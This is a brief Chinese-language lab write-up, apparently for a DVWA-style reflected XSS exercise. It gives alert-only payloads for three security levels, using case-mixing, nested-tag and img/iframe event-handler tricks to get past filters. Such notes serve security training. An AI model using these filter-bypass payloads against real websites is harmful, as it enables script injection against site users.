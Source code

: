 # XSS (Reflected)

> ## low

最简单的xss

```html
<script>alert('low')</script>
```

<br>

> ## medium

1.使用大小写绕过：

```html
<ScRipt>alert('medium1');</ScRipt>
```



2.使用双写绕过：

```html
<scr<script>ipt>alert('medium2');</script>
```



3.使用非 script 标签

img标签：

```html
<img src=1 onerror=alert('medium3')>
```

iframe标签：

```html
<iframe onload=alert('medium4')>
```

<br>

> ## high
>

使用非 script 标签注入

img标签：

```html
<img src=1 onerror=alert('high1')>
```

iframe标签：

```html
<iframe onload=alert('high2')>
```

<br>



更多方法待补充